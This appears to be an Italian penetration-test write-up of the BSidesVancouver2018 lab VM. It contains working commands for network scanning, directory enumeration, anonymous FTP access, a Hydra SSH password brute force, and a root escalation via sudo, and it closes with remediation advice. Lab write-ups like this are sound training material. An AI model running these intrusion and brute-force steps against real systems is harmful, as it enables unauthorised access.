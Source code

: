 
# 🔒 **Penetration Test Report - BSidesVancouver2018 VM**

---

## 🔍 **Obiettivo**
L'obiettivo era ottenere l'accesso **root** sulla macchina virtuale **BSidesVancouver2018**, partendo dalla scoperta dell'IP, enumerando i servizi esposti, sfruttando vulnerabilità e tecniche di brute-force.

---

## 🛠️ **Strumenti Utilizzati**
- **Nmap**: Scansione delle porte e dei servizi.
- **Gobuster**: Enumerazione directory HTTP.
- **Nikto**: Scansione vulnerabilità HTTP.
- **FTP**: Accesso anonimo.
- **Hydra**: Brute-force SSH.
- **Metasploit**: Tentativi di exploit per FTP.
- **Rockyou.txt**: Dizionario di password comuni.

---

## 📊 **1. Scoperta dell'IP del Target**
Utilizzando **nmap** per una scansione sulla rete locale, abbiamo identificato l'indirizzo IP del target:
```bash
sudo nmap -sn 192.168.1.0/24
```
**IP rilevato**: `192.168.1.63`

---

## 📈 **2. Scansione delle Porte e dei Servizi**
Eseguita una scansione dettagliata con **Nmap**:
```bash
sudo nmap -sS -sV -O 192.168.1.63
```
### **Risultati**:
| 🔗 Porta | ⚡ Servizio | 🔎 Versione            |
|-------|----------|---------------------|
| 21/tcp  | FTP      | vsftpd 2.3.5         |
| 22/tcp  | SSH      | OpenSSH 5.9p1 (Debian 7.10) |
| 80/tcp  | HTTP     | Apache 2.2.22 (Ubuntu)|

---

## 🌐 **3. Enumerazione HTTP (Porta 80)**

1. Visitando la pagina principale HTTP, abbiamo trovato un **WordPress obsoleto**.

2. **Enumerazione directory** con Gobuster:
   ```bash
   gobuster dir -u http://192.168.1.63 -w /usr/share/wordlists/dirb/common.txt
   ```
   **Risultati**:
   - `/robots.txt`
   - `/backup_wordpress/`

3. **Nikto Scan**:
   ```bash
   nikto -h http://192.168.1.63
   ```
   **Vulnerabilità riscontrate**:
   - **Apache 2.2.22 obsoleto**
   - Directory e file esposti (`robots.txt`, `/backup_wordpress/`).

---

## 🌐 **4. Accesso FTP (Porta 21)**

Accesso anonimo abilitato:
```bash
ftp 192.168.1.63
Username: anonymous
Password: <blank>
```

### **File trovato**:
- **users.txt.bk**
```bash
cat users.txt.bk
```
**Output**:
```
abatchy
john
mai
anne
doomguy
```

---

## 🛡️ **5. Tentativi di Exploit e WordPress Login**

1. **Accesso WordPress** con credenziali dell'utente `john` fallito.
2. Tentativo di caricare una **reverse shell** tramite plugin fallito.

3. **Scansione OpenSSH**:
   ```bash
   searchsploit openssh 5.9
   ```
   Nessun exploit diretto per RCE, ma tool utili per enumerazione utenti.

---

## 🛡️ **6. Brute-Force SSH con Hydra**

Sfruttando il file `users.txt.bk` e il dizionario `rockyou.txt`, abbiamo effettuato un attacco brute-force:
```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V ssh://192.168.1.63
```

### **Risultato**:
- 🔑 **Username**: `anne`
- 🔐 **Password**: `princess`

---

## 🔧 **7. Accesso SSH e Privilege Escalation**

1. Connessione SSH con le credenziali trovate:
   ```bash
   ssh anne@192.168.1.63
   Password: princess
   ```

2. Verifica privilegi sudo:
   ```bash
   sudo su
   ```
   **Risultato**: Accesso root ottenuto con successo.

---

## 💰 **Risultato Finale**
Accesso **root** completato. Verifica effettuata con:
```bash
whoami
id
```

---

## ⚙️ **Conclusioni**
Il test è stato completato con successo grazie a:
1. **Scansione Nmap** per individuare i servizi.
2. **Enumerazione** di WordPress e FTP.
3. **Brute-force SSH** con Hydra utilizzando credenziali deboli.
4. **Privilege Escalation** con `sudo su`.

---

## ✅ **Raccomandazioni**
1. **Aggiornare i servizi obsoleti**:
   - OpenSSH e Apache.
2. **Disabilitare l'accesso FTP anonimo**.
3. **Implementare chiavi SSH** invece di password semplici.
4. **Proteggere file di backup** come `users.txt.bk`.

---

### 📚 **Author**
**Team Name / Your Name**

🌐 **Progetto pubblicato su GitHub** per scopo didattico e formativo. Se hai domande o suggerimenti, non esitare a contribuire!
